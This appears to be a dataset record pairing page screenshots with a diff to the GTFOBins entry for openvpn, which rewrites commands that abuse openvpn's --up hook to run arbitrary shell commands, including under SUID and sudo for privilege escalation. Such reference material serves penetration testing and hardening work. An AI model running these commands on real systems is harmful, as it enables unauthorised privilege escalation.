

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the whole page at 93% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -3,25 +3,13 @@ functions:
   command:
     - code: |
         COMMAND='id'
-        TF=$(mktemp)
-        echo '#!/usr/bin/env sh' > $TF
-        echo "$COMMAND" >> $TF
-        chmod +x $TF
-        openvpn --dev tun0 --script-security 2 --up $TF
+        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
   suid:
     - code: |
         COMMAND='id'
-        TF=$(mktemp)
-        echo '#!/usr/bin/env -S sh -p' > $TF
-        echo "$COMMAND" >> $TF
-        chmod +x $TF
-        openvpn --dev tun0 --script-security 2 --up $TF
+        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
   sudo:
     - code: |
         COMMAND='id'
-        TF=$(mktemp)
-        echo '#!/usr/bin/env sh' > $TF
-        echo "$COMMAND" >> $TF
-        chmod +x $TF
-        sudo openvpn --dev tun0 --script-security 2 --up $TF
+        sudo openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
 ---
```
